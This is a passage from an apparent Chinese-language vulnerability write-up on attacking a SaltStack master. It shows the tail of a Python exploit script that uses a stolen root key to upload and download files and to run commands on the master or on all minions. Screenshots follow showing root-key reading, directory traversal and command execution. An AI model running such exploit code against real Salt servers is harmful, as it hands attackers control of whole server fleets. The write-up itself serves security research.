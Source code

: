 <br>        log(f"[+] Attemping to upload {src} to {dest}")<br>        if upload(clear_channel, rootkey,  args.upload[0], args.upload[1]):<br>            log("[+] Upload done!")<br>        else:<br>            log("[-] Failed")<br>         <br>    if args.download:<br>        log(f"[+] Attemping to download {src} to {dest}")<br>        if download(clear_channel, rootkey,  args.download[0], args.download[1]):<br>            log("[+] Download done!")<br>        else:<br>            log("[-] Failed")<br><br>    if args.minions:<br>        log("[+] Attempting to send command to all minions on master")<br>        if not minion(clear_channel, command):<br>            log("[-] Failed")<br>    else:<br>        log("[+] Attempting to send command to master")<br>        if not master(clear_channel, rootkey, command):<br>            log("[-] Failed")<br>    <br>``` |

### [](#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)漏洞利用

读取 `root key` 检测是否存在漏洞:

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200513165917.png-water_print](assets/1699409283-8ac823943e44f52b53eb73fed2d3f0c8.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200513165917.png-water_print")

目录遍历

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200513165951.png-water_print](assets/1699409283-4dd2ae5233488c0fc4166ff64eff0722.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200513165951.png-water_print")

命令执行

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200513170014.png-water_print](assets/1699409283-520882c624380f4a46f2d6d5fcaa4b8f.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200513170014.png-water_print")
